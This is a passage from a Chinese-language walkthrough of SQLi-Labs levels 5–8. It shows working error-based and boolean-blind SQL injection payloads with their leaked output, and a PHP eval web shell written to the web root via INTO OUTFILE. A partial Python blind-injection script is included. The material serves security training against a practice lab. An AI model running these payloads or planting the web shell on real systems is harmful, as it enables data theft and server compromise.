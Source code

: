    ```sql
   payload = ?id=0' and extractvalue(0x0a,concat(0x30,(select group_concat(table_name) from information_schema.tables where table_schema=database()))) --+
   	XPATH syntax error: 'emails,referers,uagents,users'
   ```

   爆列名：

   ```sql
   payload = ?id=0' and extractvalue(0x0a,concat(0x0a,(SELECT GROUP_CONCAT(COLUMN_NAME) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users'))) --+
   	XPATH syntax error: 'id,username,password'
   ```

   爆记录：

   ```sql
   payload = ?id=0' and extractvalue(0x0a,concat(0x0a,(SELECT GROUP_CONCAT(username) FROM users ))) --+
   	XPATH syntax error: 'Dumb,Angelina,Dummy,secure,stup' (32字符限制)
   ```

### §1.3.6 第6关 报错注入（绕过`""`）

经过简单测试可知参数由一层双引号包围，无成功回显，有报错回显，剩余步骤与第5关一样。

### §1.3.7 第7关 导出数据库

本题无成功回显，无错误回显。通过穷举可知包含方式为`((''))`，`ORDER BY `爆列数为3。尝试输入正常数据`id=1`，得到`You are in.... Use outfile......`，提示我们使用`outfile`语句。

构造PHP WebShell：

```
<?php @eval($_POST['shell']); ?>
```

将其转化为16进制，在前面加上前导`0x`：

```
0x3c3f70687020406576616c28245f504f53545b277368656c6c275d293b203f3e
```

使用全局变量`@@datadir`查看MySQL安装路径，使用`@@basedir`查看数据库路径。这里我们盲猜PHP路径为`/var/www/html`：

```
?id=1')) union select null,0x3c3f70687020406576616c28245f504f53545b277368656c6c275d293b203f3e,null into outfile '/var/www/html/shell.php' --+
```

### §1.3.8 第8关 布尔盲注

本题成功无回显，错误无回显，穷举可知包含方法为`''`，`ORDER BY`爆列数为3。

参考[§3.3.1 布尔盲注（Boolean Based）](#§3.3.1 布尔盲注（Boolean Based）)一节的脚本——

爆数据库名：

```python
import requests

MAX_FILED_LENGTH = 20
URL_PREFIX = "http://localhost/SQLi-Labs/Less-8/"

def getBinarySearchResult(url: str, paramRange: list[int], successInfo: str) -> int:
	......

databaseNameLength = getBinarySearchResult(
    URL_PREFIX + "?id=1' and length(database())>{} --+",
    [1, MAX_FILED_LENGTH],
    "You are in..........."
)
print("数据库名的长度为{}位".format(databaseNameLength))
```